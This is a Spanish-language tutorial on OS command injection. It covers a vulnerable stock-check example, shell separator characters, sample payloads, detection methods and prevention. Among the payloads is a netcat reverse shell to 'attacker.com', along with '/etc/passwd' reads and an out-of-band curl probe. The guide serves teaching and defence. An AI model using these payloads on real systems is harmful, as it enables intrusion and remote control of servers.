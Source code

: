 ## 🚧 Guía Completa: OS Command Injection (Shell Injection)

---

# 🔐 ¿Qué es OS Command Injection?

**OS Command Injection** (tambien conocido como **Shell Injection**) es una vulnerabilidad que ocurre cuando una aplicación web permite que un atacante inyecte y ejecute **comandos arbitrarios del sistema operativo** en el servidor.

Cuando esto ocurre, el atacante puede:

- Ejecutar comandos con los mismos privilegios que el proceso vulnerable (por ejemplo, el usuario del servidor web).
- Acceder a archivos sensibles, credenciales, servicios de red internos.
- En muchos casos, escalar privilegios o pivotear hacia otros sistemas internos.

> 🚀 Es una de las vulnerabilidades **más críticas** que puede sufrir una aplicación web.

---

# 🔹 Ejemplo de funcionamiento vulnerable

### Contexto:

Una tienda online permite consultar el stock de un producto en una sucursal específica mediante la siguiente URL:

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

En el backend, el sistema ejecuta el siguiente comando en una terminal para consultar el stock en sistemas legados:

```bash
stockreport.pl 381 29
```

El problema aparece cuando los valores de `productID` y `storeID` son inyectados directamente en el comando del sistema **sin ninguna validación o sanitización**.

---

# 🚨 Explotación básica

El atacante puede enviar lo siguiente como valor de `productID`:

```
& echo aiwefwlguh &
```

El comando resultante que se ejecuta es:

```bash
stockreport.pl & echo aiwefwlguh & 29
```

Lo que ejecuta:
1. `stockreport.pl` (sin argumentos, produce un error).
2. `echo aiwefwlguh` (el string aparece en la salida).
3. `29` (interpreta `29` como un comando, produce un error).

### Resultado en pantalla:
```
Error - productID was not provided
aioefwguh
29: command not found
```

### 🔗 Caracteres de inyección comunes en Linux:

| Carácter | Funcón |
|----------|--------|
| `&` | Ejecuta comandos en secuencia. |
| `;` | Separa comandos independientes. |
| `|` | Pipe: conecta la salida de un comando con otro. |
| `||`, `&&` | Condicionales: ejecuta solo si el anterior falla/exitoso. |
| `\`` o `$()` | Ejecuta comandos en subshell. |

### 🔗 Ejemplo de payloads:

```bash
productID=381; whoami
productID=381 && ls /
productID=381 | nc attacker.com 4444 -e /bin/bash
productID=381$(id)
```

---

# 🔢 Variantes por sistema operativo

### 🌎 Linux:

| Comando | Descripción |
|---------|-------------|
| `id` | Muestra el usuario actual. |
| `uname -a` | Info del kernel y sistema. |
| `cat /etc/passwd` | Usuarios del sistema. |
| `netstat -tuln` | Puertos abiertos. |

### 🌊 Windows:

| Comando | Descripción |
|---------|-------------|
| `whoami` | Usuario actual. |
| `dir` | Lista archivos del directorio. |
| `ipconfig` | Info de red. |
| `type C:\\Windows\\win.ini` | Leer archivo clásico para prueba. |

> ⚠️ En Windows, los comandos se pueden inyectar con `&`, `&&`, `|`, `^`.

---

# 🔒 Técnicas para detectar OS Command Injection

1. **Inyección de comandos de eco:**
   ```bash
   & echo testcmd &
   ```
   Si "testcmd" aparece en la respuesta, hay ejecución.

2. **Retraso por tiempo (blind):**
   ```bash
   ; sleep 10
   ```
   Si la respuesta demora, el comando fue ejecutado aunque no haya salida visible.

3. **Out-of-Band (OAST):**
   ```bash
   ; curl http://your-burpcollaborator.net
   ```
   Se usa para detectar ejecución si no hay respuesta directa (blind RCE).

---

# 🚫 Cómo prevenir OS Command Injection

### ✅ 1. Evitar construir comandos con datos del usuario
- Usar APIs del lenguaje que **no invocan shell** (por ejemplo, `subprocess.run()` en Python con `shell=False`).

### ✅ 2. Validar estrictamente la entrada
- Usar **listas blancas** (whitelisting) para los argumentos esperados.
- Rechazar cualquier caracter especial como `;`, `&`, `|`, `>`.

### ✅ 3. Uso de privilegios mínimos
- El proceso que ejecuta el comando debe correr como un usuario **con permisos limitados**.

### ✅ 4. Escape adecuado de argumentos
- Si realmente se deben usar en comandos, escapar correctamente según el sistema operativo.

---

# 🎓 Conclusión

**OS Command Injection** es una de las vulnerabilidades más críticas debido a su capacidad de proporcionar al atacante **acceso directo al sistema operativo** del servidor. Con pocos caracteres, un atacante puede escalar desde un acceso limitado hasta tomar control completo del entorno.

La prevención se basa en:
- **No confiar nunca en la entrada del usuario**.
- Evitar ejecutar comandos innecesariamente.
- Implementar validaciones estrictas y usar métodos seguros para ejecutar procesos si es inevitable.

> ⚠️ Como pentester, la detección de OS command injection puede ser sutil, pero los resultados son devastadores cuando se explota correctamente.

